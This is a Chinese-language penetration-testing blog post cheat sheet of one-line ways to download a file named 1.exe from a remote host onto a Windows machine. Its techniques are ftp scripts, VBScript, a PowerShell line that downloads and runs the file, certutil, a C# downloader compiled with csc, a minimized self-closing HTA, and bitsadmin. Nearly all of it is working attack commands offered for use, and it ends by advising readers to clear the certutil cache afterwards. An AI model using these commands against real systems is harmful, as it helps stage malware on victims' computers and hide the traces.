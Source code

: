 ```yaml
---
title: "一句话下载姿势总结"
date: 2019-05-23T14:11:16+08:00
lastmod: 2019-05-23T14:11:16+08:00
draft: false
tags: ['shell','download']
categories: ['pentest']
comment: true
---
```


在上一篇文章中，提到了下载shell的一些姿势，我们这篇文章来深入探究下。

<!--more-->

# ftp

```bash
echo open 192.168.1.1 21> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo ftp>> ftp.txt
echo GET 1.exe >> ftp.txt
ftp -s:ftp.txt
```

需要搭建ftp服务器，初次使用ftp下载防火墙会弹框拦截，使用前记得要先添加防火墙规则

# vbs

vbs downloader,使用msxml2.xmlhttp和adodb.stream对象

```vbscript
Set Post = CreateObject("Msxml2.XMLHTTP")
Set Shell = CreateObject("Wscript.Shell")
Post.Open "GET","http://192.168.1.1/1.exe",0
Post.Send()
Set aGet = CreateObject("ADODB.Stream")
aGet.Mode = 3
aGet.Type = 1
aGet.Open()
aGet.Write(Post.responseBody)
aGet.SaveToFile "C:\test\1.exe",2
```

# powershell

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.1/1.exe','C:\test\1.exe');start-process 'C:\test\1.exe'
```

# certutil

保存在当前路径，文件名称同URL

```bash
certutil.exe -urlcache -split -f http://192.168.1.1/1.exe
```

保存在当前路径，指定保存文件名称

```bash
certutil.exe -urlcache -split -f http://192.168.1.1/1.txt 1.php
```

使用downloader默认在缓存目录位置： `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`保存下载的文件副本

命令行删除缓存

```bash
certutil.exe -urlcache -split -f http://192.168.1.1/1.exe delete
```

查看缓存项目：

```
certutil.exe -urlcache *
```

# csc

csc.exe是微软.NET Framework 中的C#编译器，Windows系统中默认包含，可在命令行下将cs文件编译成exe

download.cs

```c#
using System.Net;
namespace downloader
{
    class Program
    {
        static void Main(string[] args)
        {
            WebClient client = new WebClient();
            string URLAddress = @"http://192.168.1.1/1.exe";
            string receivePath = @"C:\test\";
            client.DownloadFile(URLAddress, receivePath + System.IO.Path.GetFileName
        (URLAddress));
        }
    }
}
```

```bash
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /out:C:\tes
t\download.exe C:\test\download.cs
```

# hta

添加最小化和自动退出hta程序的功能，执行过程中会最小化hta窗口，下载文件结束后自动退出hta程序

将以下代码保存为hta文件

```html
<html>
<head>
<script>
var Object = new ActiveXObject("MSXML2.XMLHTTP");
Object.open("GET","http://192.168.1.1/1.exe",false);
Object.send();
if (Object.Status == 200)
{
    var Stream = new ActiveXObject("ADODB.Stream");
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.SaveToFile("C:\\test\\1.exe", 2);
    Stream.Close();
}
window.close();
</script>
<HTA:APPLICATION
WINDOWSTATE = "minimize">
</head>
<body>
</body>  
</html>
```

# bitsadmin

bitsadmin是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。xp以后的Windows系统自带

```bash
bitsadmin /transfer n http://192.168.1.1/1.exe  C:\test\update\1.exe
```

**不支持https、ftp协议，php python带的服务器会出错**

---

写在文后，推荐使用powershell或certutil，但是记得清理缓存。